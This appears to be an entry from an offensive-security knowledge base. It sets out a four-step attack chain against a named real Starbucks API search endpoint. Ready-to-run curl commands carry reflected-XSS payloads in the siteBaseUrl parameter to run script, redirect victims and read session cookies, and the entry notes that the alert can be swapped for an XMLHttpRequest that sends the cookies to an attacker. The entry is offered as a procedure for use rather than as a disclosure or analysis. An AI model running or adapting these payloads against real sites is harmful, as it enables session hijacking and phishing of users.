

---
tags:
  - xss
  - reflected-xss
  - open-redirect
  - javascript
  - cookie-theft
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Identify-Reflected-XSS-in-siteBaseUrl-Parameter]]'
  - '[[procedures/Inject-JavaScript-Payload-via-siteBaseUrl-for-Domain-Prompt]]'
  - '[[procedures/Perform-Open-Redirect-using-siteBaseUrl-Injection]]'
  - '[[procedures/Exfiltrate-Cookies-with-XSS-Payload-in-siteBaseUrl]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
description: >-
  A multi-stage web attack exploiting insufficient sanitization in the
  siteBaseUrl parameter of the /searchasyoutype/v1/search endpoint to reflect
  XSS payloads, execute JavaScript for cookie theft, and perform open redirects.
skill_level: intermediate
impact_level: high
id: ba37d14e-210a-43a7-926e-dcf424372d9a
created_at: '2025-12-14T03:46:31.615Z'
updated_at: '2025-12-14T03:46:31.615Z'
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Reflected XSS and Open Redirect via siteBaseUrl in Starbucks OpenAPI Search Endpoint

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the siteBaseUrl parameter, allowing JavaScript execution, cookie theft, and open redirects on openapi.starbucks.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)
- Optional: Proxy tool like Burp Suite for request manipulation

### Target Environment

- Web platform
- Access to https://openapi.starbucks.com
- No authentication required for the endpoint

### Initial Access Requirements

- Public internet access
- No credentials needed
- Victim must interact with the malicious link (e.g., via phishing)

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Reflected-XSS-in-siteBaseUrl-Parameter]]

**Objective**: Locate the /searchasyoutype/v1/search endpoint and confirm reflection of the siteBaseUrl parameter without sanitization.

**Instructions**: Send a test request to the endpoint using a browser or curl to observe how siteBaseUrl is reflected in the HTML response. Look for unsanitized output in the page source.

Use [[commands/curl-access-search-endpoint]] to probe:

```bash
curl -G "https://openapi.starbucks.com/searchasyoutype/v1/search" -d "query=coffee" -d "siteBaseUrl=http://example.com" --header "x-api-key: YOUR_API_KEY"
```

Examine the response for direct reflection of siteBaseUrl.

**Expected Output**: HTML response containing the raw siteBaseUrl value, e.g., <a href="http://example.com">, indicating potential breakout opportunity.

**Success Indicators**:
- siteBaseUrl reflected without encoding
- URL context observed in HTML

### Step 2: Inject XSS Payload
procedure: [[procedures/Inject-JavaScript-Payload-via-siteBaseUrl-for-Domain-Prompt]]

**Objective**: Break out of the URL context using newline injection to execute JavaScript, confirming XSS.

**Instructions**: Craft a payload that uses %0a (newline) to escape the href attribute and inject HTML/JS. Deliver via a link to a victim or test in browser.

Use [[commands/curl-inject-xss-payload]]:

```bash
curl -G "https://openapi.starbucks.com/searchasyoutype/v1/search" -d "query=coffee" -d "siteBaseUrl=http://googl.com/%0a<body onload=prompt(document.domain)>" --header "x-api-key: YOUR_API_KEY"
```

Load the response in a browser to trigger the onload event.

**Expected Output**: Browser prompt displaying the document domain upon page load.

**Success Indicators**:
- JavaScript execution confirmed
- No CSP blocking observed

### Step 3: Test Open Redirect
procedure: [[procedures/Perform-Open-Redirect-using-siteBaseUrl-Injection]]

**Objective**: Combine URL injection with script to redirect the victim to an arbitrary malicious site.

**Instructions**: Modify the payload to include a script tag that changes window.location after breakout.

Use [[commands/curl-test-open-redirect]]:

```bash
curl -G "https://openapi.starbucks.com/searchasyoutype/v1/search" -d "query=coffee" -d "siteBaseUrl=http://googl.com/%0a<script>window.location='https://google.com';</script>" --header "x-api-key: YOUR_API_KEY"
```

Observe the redirect in a browser.

**Expected Output**: Page redirects to the specified URL (e.g., google.com).

**Success Indicators**:
- Automatic redirect to external site
- Potential for phishing setup

### Step 4: Demonstrate Cookie Theft
procedure: [[procedures/Exfiltrate-Cookies-with-XSS-Payload-in-siteBaseUrl]]

**Objective**: Execute JS to access and exfiltrate document.cookie to an attacker-controlled server.

**Instructions**: Update the payload to alert or send cookies via onload event.

Use [[commands/curl-steal-cookies-xss]]:

```bash
curl -G "https://openapi.starbucks.com/searchasyoutype/v1/search" -d "query=coffee" -d "siteBaseUrl=http://googl.com/%0a<body onload=alert(document.cookie)>" --header "x-api-key: YOUR_API_KEY"
```

In a real attack, replace alert with an XMLHttpRequest to exfiltrate.

**Expected Output**: Alert box showing cookie values, or network request to attacker server.

**Success Indicators**:
- Cookies accessed and displayed
- Session hijacking potential confirmed

## Attack Chain Summary

### Key Achievements

1. Identified reflection in siteBaseUrl without sanitization
2. Executed arbitrary JavaScript via XSS breakout
3. Enabled open redirects for phishing
4. Demonstrated client-side data theft including cookies

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01*
